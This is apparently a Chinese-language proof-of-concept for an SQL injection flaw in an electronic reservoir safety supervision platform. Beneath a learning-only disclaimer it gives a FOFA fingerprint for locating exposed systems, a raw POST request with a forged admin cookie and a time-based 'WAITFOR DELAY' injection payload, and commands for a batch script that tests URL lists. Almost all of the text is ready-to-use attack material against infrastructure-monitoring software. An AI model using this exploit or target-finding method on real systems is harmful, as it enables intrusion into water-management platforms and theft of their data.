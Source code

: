 # 某电子水库安全监管平台-存在sql注入漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

js_name="js/PSExtend.js"

POC:

POST /WebServices/SIMMaintainService.asmx/GetAllRechargeRecordsBySIMCardId HTTP/1.1
Host:
"Accept-Language": "zh-CN,zh;q=0.9"
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Cookie: currentuser=username=admin; usercookiename=usernames=admin;
Content-Length: 128

loginIdentifer=123&simcardId=123';WAITFOR DELAY '0:0:3'--



直接GET请求即可

![image-20231219105512392](assets/image-20231219105512392.png)

批量poc(记得安装库)

python poc.py -u 

![image-20231219105617309](assets/image-20231219105617309.png)

python poc.py -f  .txt

![image-20231219105706862](assets/image-20231219105706862.png)